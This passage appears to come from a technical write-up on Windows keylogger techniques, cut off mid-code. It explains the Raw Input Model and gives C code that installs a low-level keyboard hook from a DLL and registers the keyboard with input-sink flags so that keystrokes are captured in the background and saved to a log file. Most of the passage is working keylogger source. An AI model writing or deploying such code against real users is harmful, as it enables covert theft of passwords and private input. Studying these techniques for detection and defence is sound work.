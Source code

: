 ``` c
HMODULE hHookLibrary = LoadLibraryW(L"hook.dll");
FARPROC hookFunc = GetProcAddress(hHookLibrary, "SaveTheKey");

HHOOK keyboardHook = NULL;
    
keyboardHook = SetWindowsHookEx(WH_KEYBOARD_LL,
                (HOOKPROC)hookFunc,
                hHookLibrary,
                0);
```

 3. Keylogger using the Raw Input Model
 
This type of keylogger captures and records raw input data obtained directly from input devices like keyboards. Before delving into the details of this type of keylogger, it's essential to understand the "Original Input Model" and "Raw Input Model" in Windows. Here's an explanation of each input method:

 - **Original Input Model**: The data entered from input devices like keyboards is processed by the OS before being delivered to the application.
 - **Raw Input Model**: The data entered from input devices is received directly by the application without any intermediate processing by the OS.
 
Initially, Windows only used the Original Input Model. However, with the introduction of Windows XP, the Raw Input Model was added, likely due to the increasing diversity of input devices. In the Raw Input Model, the [```RegisterRawInputDevices```](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-registerrawinputdevices) API is used to register the input devices from which you want to receive raw data directly. Subsequently, the [```GetRawInputData```](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getrawinputdata) API is used to obtain the raw data.

Below is a simple example of a keylogger using the Raw Input Model and these APIs:

``` c
LRESULT CALLBACK WndProc(HWND hWnd, UINT uMessage, WPARAM wParam, LPARAM lParam)
{

    UINT dwSize = 0;
    RAWINPUT* buffer = NULL;

    switch (uMessage)
    {
    case WM_CREATE:
        RAWINPUTDEVICE rid;
        rid.usUsagePage = 0x01;  // HID_USAGE_PAGE_GENERIC
        rid.usUsage = 0x06;      // HID_USAGE_GENERIC_KEYBOARD
        rid.dwFlags = RIDEV_NOLEGACY | RIDEV_INPUTSINK;
        rid.hwndTarget = hWnd;
        RegisterRawInputDevices(&rid, 1, sizeof(rid));
        break;
    case WM_INPUT:
        GetRawInputData((HRAWINPUT)lParam, RID_INPUT, NULL, &dwSize, sizeof(RAWINPUTHEADER));

        buffer = (RAWINPUT*)HeapAlloc(GetProcessHeap(), 0, dwSize);

        if (GetRawInputData((HRAWINPUT)lParam, RID_INPUT, buffer, &dwSize, sizeof(RAWINPUTHEADER)))
        {
            if (buffer->header.dwType == RIM_TYPEKEYBOARD)
            {
                SaveTheKey(buffer, "log.txt");
            }
        }
        HeapFree(GetProcessHeap(), 0, buffer);
        break;
    default:
        return DefWindowProc(hWnd, uMessage, wParam, lParam);
```